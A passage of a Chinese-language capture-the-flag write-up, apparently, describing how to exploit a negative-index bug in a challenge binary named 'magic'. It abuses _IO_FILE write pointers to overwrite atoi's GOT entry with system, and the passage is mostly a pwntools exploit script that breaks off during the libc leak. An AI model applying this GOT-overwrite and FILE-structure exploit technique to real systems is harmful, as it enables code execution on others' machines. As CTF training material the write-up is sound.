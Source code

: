 好了，所以我们最终如下操作，先把`_IO_write_end `与`_IO_write_ptr `都改为`atoi_got + 143` ，最后再利用负下标漏洞把`_IO_write_ptr `向下滑倒`atoi_got` -1，于是目的就达成了。

```python
# change atoi to system
spell(0, p64(log_file) + p64(heap + 0x200) * 3)
spell(0, p64(atoi_got + 143) + p64(atoi_got + 0xAAA))

spell(-2, '\x00')
spell(-2, '\x00' * 3)
spell(-2, '\x00' * 3)
payload = '\x00' + p64(system)
spell(0, payload)
```

### exp

ubuntu16.04测试成功

```python
#! /usr/bin/env python
from pwn import *

p = process('./magic')

debug = 1
if debug:
    context.log_level = 'debug'

elf = ELF('./magic')
atoi_got = elf.got['atoi']
log_file = elf.sym['log_file']

libc = elf.libc

def create():
    p.sendlineafter('choice>> ', '1')
    p.sendlineafter("Give me the wizard's name:", 'aaa')

def spell(index, name):
    p.sendlineafter('choice>> ', '2')
    p.sendlineafter('Who will spell:', str(index))
    p.sendafter('Spell name:', str(name))

def pause(p, s = 'pause'):
    return raw_input(s)


context.terminal = ['tmux', 'splitw', '-h']
# gdb.attach(p)
create()
spell(0, 'aaa')
#pause()



# leak libc
for i in range(11):
    spell(-2, '\x00')
spell(-2, '\x00' * 11)
spell(-2, '\x00' * 11)
spell(-2, '\x00' * 11)

payload = '\x00'
payload += p64(0xfbad24a8)
```